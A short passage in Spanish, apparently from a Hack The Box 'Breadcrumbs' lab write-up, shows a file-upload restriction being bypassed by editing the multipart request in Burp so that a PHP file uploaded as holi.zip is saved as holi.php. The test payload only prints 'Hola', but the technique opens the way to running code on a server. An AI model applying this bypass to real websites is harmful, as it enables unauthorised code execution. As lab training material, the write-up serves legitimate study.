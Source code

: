 ![316page80_err_up_phpF](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/breadcrumbs/316burp_done_up_zipF_paul.png)

Se subió como `holi.zip`, simplemente en `Burp` le cambiamos la extensión: 

```html
...
<?php

echo "Hola";

?>

-----------------------------1138605338005785511225757143
Content-Disposition: form-data; name="task"

holi.php
...
```

![316page80_done_up_phpF](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/breadcrumbs/316page80_done_up_phpF.png)
